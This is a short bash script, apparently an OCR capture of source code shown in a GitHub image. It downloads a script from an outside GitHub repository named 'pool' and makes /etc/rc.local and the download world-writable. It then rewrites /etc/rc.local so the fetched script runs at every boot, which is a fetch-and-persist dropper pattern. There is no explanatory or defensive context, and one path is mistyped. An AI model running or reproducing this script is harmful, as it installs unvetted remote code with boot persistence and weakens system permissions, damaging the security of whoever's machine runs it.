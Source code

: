 #!/bin/bash
sleep 10
mkdir /data
cd /data
chmod 777 /etc/rc.local
curl -LO https://github.com/2319763378/pool/raw/master/change/script.sh
chmod 777 /data/script.sh
echo '#!/bin/bash' > /etc/rc.local
echo 'bash /data/script.sh' >> /etc/rc.local
cat /data/script.sh
echo "------------------------"
cat /ete/rc.local
echo "------------------------"
